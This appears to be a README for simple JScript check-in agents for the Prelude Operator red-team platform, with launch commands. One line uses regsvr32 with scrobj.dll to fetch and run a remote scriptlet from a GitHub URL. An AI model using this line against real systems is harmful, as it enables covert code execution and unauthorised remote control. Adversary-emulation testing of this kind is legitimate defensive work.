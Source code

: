 ## Examples in JScript.

The simple agent checkin_minimalist.js, supports the cmd executor.

`cscript.exe checkin_minimalist.js`

## COM Scriptlet

`regsvr32.exe /s /u /i:https://raw.githubusercontent.com/secdev-01/PreludeOperator_QuickCheck/main/jscript/prelude_checkin.sct scrobj.dll`

## cscript

`cscript dotnet_interop.js`

Create a simple TTP that uses cmd executor

<img width="1000" alt="Screen Shot 2021-06-26 at 5 22 51 PM" src="https://user-images.githubusercontent.com/83469949/123528231-33159d80-d6a3-11eb-8cc3-2ccd2311c170.png">

STDOUT is returned as base64 encoded, so we don't have to deal with all the escaping etc...

Screen Shot 2021-06-26 at 5.17.40 PM<img width="777" alt="Screen Shot 2021-06-26 at 5 17 40 PM" src="https://user-images.githubusercontent.com/83469949/123528256-5f311e80-d6a3-11eb-90e2-c8cc0140eacf.png">


```
There is alot more to do here to make it more production ready, but in a sense these are some really simple building blocks

```
